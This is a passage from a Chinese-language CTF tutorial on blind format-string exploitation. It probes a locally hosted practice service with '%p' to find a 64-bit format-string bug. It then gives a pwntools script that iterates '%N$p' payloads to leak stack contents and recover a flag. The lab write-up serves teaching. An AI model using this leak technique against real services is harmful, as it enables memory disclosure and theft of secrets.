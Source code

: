 - 确定程序的位数
- 确定漏洞位置 
- 利用

由于没找到比赛后给源码的题目，所以自己简单构造了两道题。

### 例子1-泄露栈

源码和部署文件均放在了对应的文件夹 fmt\_blind\_stack 中。

#### 确定程序位数

我们随便输入了 %p，程序回显如下信息

```shell
➜  blind_fmt_stack git:(master) ✗ nc localhost 9999
%p
0x7ffd4799beb0
G�flag is on the stack%                          
```

告诉我们 flag 在栈上，同时知道了该程序是 64 位的，而且应该有格式化字符串漏洞。

#### 利用

那我们就一点一点测试看看

```python
from pwn import *
context.log_level = 'error'


def leak(payload):
    sh = remote('127.0.0.1', 9999)
    sh.sendline(payload)
    data = sh.recvuntil('\n', drop=True)
    if data.startswith('0x'):
        print p64(int(data, 16))
    sh.close()


i = 1
while 1:
    payload = '%{}$p'.format(i)
    leak(payload)
    i += 1

```

最后在输出中简单看了看，得到 flag

```shell
////////
////////
\x00\x00\x00\x00\x00\x00\x00\xff
flag{thi
s_is_fla
g}\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\xfe\x7f\x00\x00
```
